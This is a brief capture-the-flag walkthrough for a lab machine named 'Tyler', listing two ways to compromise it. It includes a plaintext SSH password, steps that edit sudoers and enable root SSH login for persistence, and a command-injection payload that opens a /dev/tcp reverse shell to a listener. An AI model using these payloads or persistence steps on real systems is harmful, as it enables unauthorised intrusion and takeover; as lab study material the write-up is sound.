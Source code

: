 # Tyler
## Method 1
1. http://tyler.thm/upload or `smbclient ////tyler.thm//public` and `get alert.txt`
2. http://tyler.thm/betatest check for `narrator`
3. `ssh narrator@tyler.thm` password: `X8JEETQmf3hkS65f`
4. `vim /etc/sudoers` and add narrator to sudoers
5. `narrator ALL=(ALL) ALL`
6. `vim /etc/ssh/sshd_config` and `PermitRootLogin` no to yes.
## Method 2
1. http://tyler.thm/betatest
2. `nc -nvlp 8888` on kali
3. `tdurden;sh -i >& /dev/tcp/10.8.85.10/8888 0>&1` to betatest

